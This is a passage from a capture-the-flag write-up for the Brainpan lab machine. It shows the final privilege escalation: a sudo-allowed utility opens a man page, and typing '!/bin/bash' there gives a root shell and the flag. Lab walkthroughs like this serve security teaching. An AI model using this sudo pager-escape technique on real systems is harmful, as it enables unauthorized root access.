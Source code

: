Running sudo -l shows our user 'puck' can run /home/anansi/bin/anansi_util as root with out a password.

```highlight
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
puck@brainpan:/home/puck$ 
```

Running the utility I get 3 options, manual looks interesting as I can choose a command.

```highlight
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual bash
```

I am presented with the man page for bash so I can try to break out of the manual by typing: !/bin/bash

```highlight
root@brainpan:/usr/share/man# id
uid=0(root) gid=0(root) groups=0(root)
root@brainpan:/usr/share/man# cd /root
root@brainpan:~# ls
b.txt
root@brainpan:~# cat b.txt 
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|


                                              http://www.techorganic.com 
```

I exit the manual as root! 

Thats the box, thanks for reading!